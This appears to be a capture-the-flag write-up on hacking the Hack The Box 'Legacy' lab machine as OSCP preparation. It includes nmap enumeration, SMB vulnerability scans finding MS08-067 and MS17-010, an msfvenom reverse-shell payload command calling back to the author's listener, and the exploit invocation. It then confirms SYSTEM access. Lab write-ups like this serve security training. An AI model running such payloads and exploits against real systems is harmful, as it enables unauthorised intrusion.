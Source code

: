 Title: HTB Legacy box writeup
Tags: oscp, htb
Summary: Quite short walkthrough for this little box
Date: 31/08/2020 15:30
Status: published

Starting series of writeups for a list of machines compiled by TJNull in his well-known 
[blog post](https://www.netsecfocus.com/oscp/2019/03/29/The_Journey_to_Try_Harder-_TJNulls_Preparation_Guide_for_PWK_OSCP.html#vulnerable-machines).

# Enumeration
Let's dig into this box. We are not restricted with traffic amount or something like that, so I just spinned up the full nmap scan with `-sS`:

<pre>

    # Nmap 7.80 scan initiated Wed Aug 26 12:28:33 2020 as: nmap -sS -p- -oA nmap/nmap-ss-all 10.10.10.4
    Nmap scan report for legacy.htb (10.10.10.4)
    Host is up (0.12s latency).
    Not shown: 65532 filtered ports
    PORT     STATE  SERVICE
    139/tcp  open   netbios-ssn
    445/tcp  open   microsoft-ds
    3389/tcp closed ms-wbt-server

    # Nmap done at Wed Aug 26 12:31:39 2020 -- 1 IP address (1 host up) scanned in 186.30 seconds

</pre>
Unfortunately, SMB server does not allow anonymous logon since `smbclient -N -L \\\\10.10.10.4\\` fails.

Not much ports open there, seems to be only SMB server available at the time. Let's try to dig some more with `-A` and `-sV` on discovered ports:

<pre>

    # Nmap 7.80 scan initiated Wed Aug 26 12:35:32 2020 as: nmap -A -T4 -sV -O -p139,445 -oA nmap/nmap-AT4sVO-open 10.10.10.4
    Nmap scan report for legacy.htb (10.10.10.4)
    Host is up (0.18s latency).

    PORT    STATE SERVICE      VERSION
    139/tcp open  netbios-ssn  Microsoft Windows netbios-ssn
    445/tcp open  microsoft-ds Windows XP microsoft-ds
    Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
    Device type: general purpose
    Running (JUST GUESSING): Microsoft Windows 2000|XP|2003 (90%)
    OS CPE: cpe:/o:microsoft:windows_2000::sp4 cpe:/o:microsoft:windows_xp::sp2 cpe:/o:microsoft:windows_xp::sp3 
    cpe:/o:microsoft:windows_server_2003 
    Aggressive OS guesses: Microsoft Windows 2000 SP4 or Windows XP SP2 or SP3 (90%), 
    Microsoft Windows XP SP2 or Windows Small Business Server 2003 (90%), Microsoft Windows XP SP2 (89%), 
    Microsoft Windows Server 2003 (87%), Microsoft Windows XP SP2 or SP3 (87%), Microsoft Windows XP SP3 (87%), 
    Microsoft Windows 2000 SP4 (86%), Microsoft Windows XP Professional SP2 (86%), Microsoft Windows XP Professional SP3 (86%), 
    Microsoft Windows XP SP2 or Windows Server 2003 (86%)
    No exact OS matches for host (test conditions non-ideal).
    Network Distance: 2 hops
    Service Info: OSs: Windows, Windows XP; CPE: cpe:/o:microsoft:windows, cpe:/o:microsoft:windows_xp

    Host script results:
    |_clock-skew: mean: -4h27m15s, deviation: 2h07m16s, median: -5h57m15s
    |_nbstat: NetBIOS name: LEGACY, NetBIOS user: <unknown>, NetBIOS MAC: 00:50:56:b9:3d:03 (VMware)
    | smb-os-discovery: 
    |   OS: Windows XP (Windows 2000 LAN Manager)
    |   OS CPE: cpe:/o:microsoft:windows_xp::-
    |   Computer name: legacy
    |   NetBIOS computer name: LEGACY\x00
    |   Workgroup: HTB\x00
    |_  System time: 2020-08-26T12:38:29+03:00
    | smb-security-mode: 
    |   account_used: guest
    |   authentication_level: user
    |   challenge_response: supported
    |_  message_signing: disabled (dangerous, but default)
    |_smb2-time: Protocol negotiation failed (SMB2)

    TRACEROUTE (using port 139/tcp)
    HOP RTT       ADDRESS
    1   120.17 ms 10.10.14.1
    2   290.33 ms legacy.htb (10.10.10.4)

    OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
    # Nmap done at Wed Aug 26 12:36:36 2020 -- 1 IP address (1 host up) scanned in 63.88 seconds

</pre>
Well it's really seems to be _legacy_ since nmap suggests that this box running Windows XP. Though these results may not be accurate, `smb-os-discovery` also
suggests so, I'll take a mental note about this - it might be vulnerable to some antediluvian vulnerabilities.  
Nmap has some more interesting scripts for SMB, worth trying to scan using them:

<pre>

    # Nmap 7.80 scan initiated Wed Aug 26 12:49:00 2020 as: nmap -p445,139 --script=smb-vuln* -oA nmap/smb-vuln-mass 10.10.10.4
    Nmap scan report for legacy.htb (10.10.10.4)
    Host is up (0.12s latency).

    PORT    STATE SERVICE
    139/tcp open  netbios-ssn
    445/tcp open  microsoft-ds

    Host script results:
    | smb-vuln-ms08-067: 
    |   VULNERABLE:
    |   Microsoft Windows system vulnerable to remote code execution (MS08-067)
    |     State: LIKELY VULNERABLE
    |     IDs:  CVE:CVE-2008-4250
    |           The Server service in Microsoft Windows 2000 SP4, XP SP2 and SP3, Server 2003 SP1 and SP2,
    |           Vista Gold and SP1, Server 2008, and 7 Pre-Beta allows remote attackers to execute arbitrary
    |           code via a crafted RPC request that triggers the overflow during path canonicalization.
    |           
    |     Disclosure date: 2008-10-23
    |     References:
    |       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2008-4250
    |_      https://technet.microsoft.com/en-us/library/security/ms08-067.aspx
    |_smb-vuln-ms10-054: false
    |_smb-vuln-ms10-061: ERROR: Script execution failed (use -d to debug)
    | smb-vuln-ms17-010: 
    |   VULNERABLE:
    |   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
    |     State: VULNERABLE
    |     IDs:  CVE:CVE-2017-0143
    |     Risk factor: HIGH
    |       A critical remote code execution vulnerability exists in Microsoft SMBv1
    |        servers (ms17-010).
    |           
    |     Disclosure date: 2017-03-14
    |     References:
    |       https://technet.microsoft.com/en-us/library/security/ms17-010.aspx
    |       https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/
    |_      https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143

    # Nmap done at Wed Aug 26 12:49:07 2020 -- 1 IP address (1 host up) scanned in 7.25 seconds

</pre>
Gotcha! Notice that it's 'likely vulnerable' to CVE-2008-4250 (MS08-067). Pretty old vulnerability, this looks consonant
with box name. 

# Exploitation
There is some exploit code for MS08-67 in [github](https://github.com/andyacer/ms08_067.git). Looks neat, without pranks or `rm -rf` stuff within.
I've just generated payload with `msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.8 LPORT=53 EXITFUNC=thread -f c -o shell.c -b "\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40"`
and put that shellcode instead of the one that was in the script already. Initially I forgot to set badchars and it was not working for that reason, but
eventually I read the exploit script and notices some examples. Lesson learned - do not hurry! I must have thought that this exploit is broken or something
if I didn't read carefully.  
Exploit script had multiple choices for targets, I decided to start from end and used `./ms08_067_2018.py 10.10.10.4 7 445` - bullseye! Shell popped out on my 
`multi/handler` running.

# Post-exploitation
As per `systeminfo` this box is indeed running Windows XP SP3. Unfortunately it doesn't have `whoami` in the command line shell and `echo %USERNAME%` didn't work
for some reason (emitted nothing). So I had to determine current user by indirect methods. First, I suggest that since SMB server service got exploited, it's likely
a SYSTEM shell. Two little commands to prove that hypothesis. Who wants to go directly for the root flag? That's boring :)  
First command is `set`, which will show us some current envars:

![set output](/cstatic/htb-legacy/set.png)

Take a look at `USERPROFILE` envar - it shows us a special folder.

Second command is `reg query "HKU\S-1-5-19"` which tries to query some keys that only administrator could get.

![reg query output](/cstatic/htb-legacy/hku.png)

We indeed having at least administrative rights on this box. Safe to go ahead and grab root flag:

![root flag](/cstatic/htb-legacy/flag.png)

